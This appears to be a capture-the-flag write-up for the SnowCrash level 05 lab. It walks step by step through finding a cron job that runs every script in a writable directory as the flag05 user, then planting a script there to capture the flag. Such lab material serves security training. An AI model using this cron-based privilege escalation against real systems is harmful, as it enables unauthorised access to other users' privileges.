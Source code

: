# SnowCrash Level05

At first we find nothing at the home directory.
After checking the enviroment variables, we find :
```
level05@SnowCrash:~$ env
	[...]
	MAIL=/var/mail/level05
	[...]
```

Cating that :
```
level05@SnowCrash:~$ cat $MAIL
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Interesting, let's see what the script does : (knowing that every 2nd minute
the script launched.)
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So basically in every 2nd minutes every script in ```/opt/openarenaserver``` is
executed. And then deleted.
Let's create a .txt file and give it the right permissions so flag05 can write to it :
```
level05@SnowCrash:~$ touch /tmp/gitflag
level05@SnowCrash:~$ chmod 777 /tmp/gitflag
level05@SnowCrash:~$ vim /opt/openarenaserver/gf.sh
	[...]
	#!/bin/sh
	getflag > /tmp/gitflag
	[...]
level05@SnowCrash:~$ cat /tmp/gitflag
Check flag.Here is your token :
```